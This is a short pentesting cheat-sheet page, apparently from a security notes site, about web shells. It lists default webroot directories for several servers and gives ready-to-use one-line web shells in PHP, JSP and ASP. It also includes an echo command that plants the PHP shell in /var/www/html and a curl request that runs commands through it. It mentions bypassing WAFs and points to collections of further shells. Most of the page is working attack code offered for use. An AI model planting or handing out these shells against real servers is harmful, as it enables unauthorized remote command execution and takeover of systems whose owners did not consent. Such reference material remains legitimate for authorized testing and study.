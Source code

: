 ```yaml
---
layout: default
title: Web shells
permalink: /web_shells/
---
```


# Web Shell
A Web Shell is typically a web script, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.
We need to place our web shell script into the remote host's web directory (webroot) to execute the script. This can be through a vulnerability.
<br>
| Web Server | Default Webroot           |
|------------|---------------------------|
| Apache     | `/var/www/html/`          |
| Nginx      | `/usr/local/nginx/html/`  |
| IIS        | `c:\inetpub\wwwroot\`     |
| XAMPP      | `C:\xampp\htdocs\`        |
<br>
We can check these directories to see which webroot is in use and then use echo to write out our web shell. <br>

[SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages. <br>

*Note: In certain cases, web shells may not work. This may be due to the web server preventing the use of some functions utilized by the web shell (e.g. system()), or due to a Web Application Firewall, among other reasons. In these cases, we may need to use advanced techniques to bypass these security mitigations.*

## PHP

```
<?php system($_REQUEST["cmd"]); ?>
```
```
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```
Accessing the web shell:
```
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

One good option for PHP is [phpbash](https://github.com/Arrexel/phpbash), which provides a terminal-like, semi-interactive web shell. 

## JSP

```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

## ASP

```
<% eval request("cmd") %>
```




